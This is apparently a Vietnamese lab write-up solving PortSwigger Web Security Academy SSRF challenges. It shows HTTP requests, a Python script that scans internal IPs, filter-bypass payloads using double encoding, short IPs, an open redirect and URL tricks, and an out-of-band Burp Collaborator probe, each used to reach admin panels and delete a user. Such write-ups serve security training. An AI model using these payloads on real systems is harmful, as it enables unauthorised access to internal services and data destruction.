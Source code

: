 # SSRF
 
![image](https://user-images.githubusercontent.com/68894302/168878073-3bfd2ce3-d68e-4f5a-b819-53577a44ff75.png)

 
## Lab: Basic SSRF against the local server
 
Thông thường chúng ta không thể truy cập vào chức năng quản trị viên ví dụ như /admin khi chưa được xác thực. Nhưng khi truy cập vào URL /admin từ localhost thì một số kiểm tra có thể bị bỏ qua:
 
```
POST /product/stock HTTP/1.1
Host: ac811fc91fa9cb6bc0ec9237009000c1.web-security-academy.net
 
stockApi=http://127.0.0.1/admin
 
 
HTTP/1.1 200 OK
 
<a href="/admin/delete?username=carlos">Delete</a>
```
 
như phản hồi ta thấy server đã fetch lại nội dung trong /admin và trả lại cho người dùng, từ đó ta xóa người dùng carlos và giải quyết thử thách
 
Note:
 
Tại sao các ứng dụng hoạt động theo cách này và mặc nhiên tin tưởng các yêu cầu đến từ máy cục bộ?  Điều này có thể phát sinh vì nhiều lý do:
+ Access control có thể được triển khai trong một thành phần khác nằm phía front-end của server. Khi một kết nối được thực hiện trở lại chính máy chủ, việc kiểm tra sẽ bị bỏ qua.
+ Với mục đích recovery thảm họa, ứng dụng có thể cho phép truy cập quản trị mà không cần đăng nhập, cho bất kỳ người dùng nào đến từ máy cục bộ. Điều này cung cấp một cách để quản trị viên khôi phục hệ thống trong trường hợp họ mất thông tin đăng nhập. Giả định ở đây là chỉ một người dùng hoàn toàn đáng tin cậy mới đến trực tiếp từ chính máy chủ.
+ Giao diện quản trị có thể đang lắng nghe trên một số port khác vì thế người dùng có thể không truy cập trực tiếp được.
 
---
## Lab: Basic SSRF against another back-end system
 
### Description
Phòng thí nghiệm này có tính năng kiểm tra kho, lấy dữ liệu từ hệ thống nội bộ.
 
Để giải quyết phòng thí nghiệm, hãy sử dụng chức năng kiểm tra kho để quét phạm vi 192.168.0.X nội bộ để tìm giao diện quản trị trên cổng 8080, sau đó sử dụng chức năng này để xóa carlos của người dùng.
 
### Analysis
 
Có một loại mối quan hệ khác thường phát sinh SSRF là khi máy chủ có thể tương tác với các hệ thống back-end khác mà người dùng có thể truy cập trực tiếp. Các hệ thống này thường có địa chỉ ip private không thể định tuyến được. Vì thế trong một số trường hợp SSRF chúng ta cần tìm ra địa chỉ ip của máy chủ để thực hiện exploit.
 
Dưới đây là script để tìm IP
```python
 
import requests
 
URL = 'https://ac771f041f635a7cc0a9310100a90041.web-security-academy.net/product/stock'
cookies = {'session': 'OKHuNr4TQlvXPTluBx79JBlrWoXUQGAs',}
 
for i in range(1,256):
    data = {
    'stockApi': f'http://192.168.0.{i}:8080/admin'
    }
 
    r  = requests.post(URL, cookies=cookies, data=data)
    if r.status_code == 200: # response 500 server error is not ip correct
        print (i, "OK")
        break
    else:
        print(i, "Fail")
 
```
 
```
110 Fail
111 Fail
112 Fail
113 Fail
114 Fail
115 Fail
116 Fail
117 OK
```
=> địa chỉ ip của server là 192.168.0.117
```
POST /product/stock HTTP/1.1
Host: ac771f041f635a7cc0a9310100a90041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
 
stockApi=http://192.168.0.117:8080/admin/delete?username=carlos
```
 
---
 
## Lab: SSRF with blacklist-based input filter

Challenge này có blacklist có thể chứa

```
127.0.0.1
admin
```
Chúng ta có thể bypass địa chỉ 127.0.0.1 bằng cách dùng short url loại bỏ đi một số kí tự 0. Bypass `a` bằng cách dùng url double encode %25%36%31

payload cuối cùng là:
```
stockApi=http://127.0.1/%25%36%31dmin
```

Sau đó phản hồi đưa chúng ta đến với trang quản trị admin panel
```
<div>
<span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
<div>
```
Sau đó xóa tên carlos và giải quyết challenge. Kí tự `a` trong carlos cũng phải double encode để bypass.

```
POST /product/stock HTTP/1.1
Host: ac181f661f9946c1c05d8a4f007d0065.web-security-academy.net

stockApi=http://127.0.1/%25%36%31dmin/delete?username=c%25%36%31rlos


HTTP/1.1 302 Found
Location: /admin
```

---

## Lab: SSRF with filter bypass via open redirection vulnerability

Challenge tồn tại SSRF và lỗ hổng chuyển hướng mở, xâu chuỗi 2 cái này lại và ta có thể chuyển hướng đến trang của quản trị viên
Đầu tiên lỗ hổng open redirect khi chúng ta chọn "Next Product", URL trả về như sau:

```
GET /product/nextProduct?currentProductId=3&path=/product?productId=4 HTTP/1.1
```
Nhận thấy rằng tất cả những gì được đặt vào tham số path đều được chuyển hướng

```
GET /product/nextProduct?currentProductId=10&path=https://google.com HTTP/1.1

HTTP/1.1 302 Found
Location: https://google.com
```

Nên sau khi đặt payload SSRF và kết hợp open redirect chúng ta có thể chuyển đến admin

```
POST /product/stock HTTP/1.1

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin


HTTP/1.1 200 OK

<a href="/admin">Admin panel</a>
<a href="/http://192.168.0.12:8080/admin/delete?username=carlos">Delete</a>
```

Xóa người dùng carlos để giải quyết challenge.

```
<p>User deleted successfully!</p>
```

---

## Lab: Blind SSRF with out-of-band detection

Cách dễ dàng để phát hiện blind ssrf nhất là dùng kĩ thuật oob. Kĩ thuật này liên quan đến việc cố gắng kích hoạt một yêu cầu HTTP đến một hệ thống bên ngoài mà chúng ta kiểm soát và giám sát các tương tác mạng với hệ thống đó.

Khi thực hiện các yêu cầu tài nguyên đối với một miền khác, Referer header chứa địa chỉ của trang sử dụng tài nguyên được yêu cầu. Chúng ta sẽ chèn vào header này một url trong trường hợp này dùng burp collaborator vì challenge không cho phép chèn url của bên thứ 3.

Quan sát phản hồi sau khi Poll có phần secret:
```
GET /product?productId=1 HTTP/1.1
Host: ac7d1f681e764ed7c01215bf000600bf.web-security-academy.net
Referer: https://deviuoqyjyfmx3a9bjn0ufjllcr2fr.burpcollaborator.net

--> sau khi poll

<html>
<body>x8yo2lsoga95yt249z7zyuzjigz</body>
</html>
```

---

## Lab: SSRF with whitelist-based input filter

Với whitelist chúng ta có thể kết hợp các kĩ thuật lại với nhau: 
+ Nhúng thông tin đăng nhập trước tên máy chủ sử dụng `@`
Ví dụ: https://user@host_evil
+ Dùng kí tự `#` để chỉ ra một phân đoạn url
Ví dụ: https://host_evil#foo
+ encode url để gây nhầm lẫn với trình phân tích cú pháp url

Đầu tiên thử một yêu cầu tới 127.0.0.1 chúng ta nhận thấy stock.weliketoshop.net phải được bao gồm trong request
![image](https://user-images.githubusercontent.com/68894302/168491260-d9efcaad-ba33-496d-8592-d6a45d7e64dd.png)

Thêm` `user@` vào để kiểm tra xem ứng dụng có chấp nhận thông tin đăng nhập không
![image](https://user-images.githubusercontent.com/68894302/168491349-d6217667-5bc1-48a1-9877-e3fa5ab6c65a.png)

Sử dụng dấu `#` để chỉ ra phân đoạn url, nhưng bị filter nên bỏ qua bằng cách double encode url thành %2523. Thay thế tên đăng nhập bằng địa chỉ localhost và quan sát phản hồi
![image](https://user-images.githubusercontent.com/68894302/168491892-3b8211b5-22ab-47e9-a73f-dca10b32e183.png)

Xóa người dùng carlos và giải quyết challenge
![image](https://user-images.githubusercontent.com/68894302/168491954-6ccdacd1-3c30-426b-8ed3-78ae84fa15b1.png)









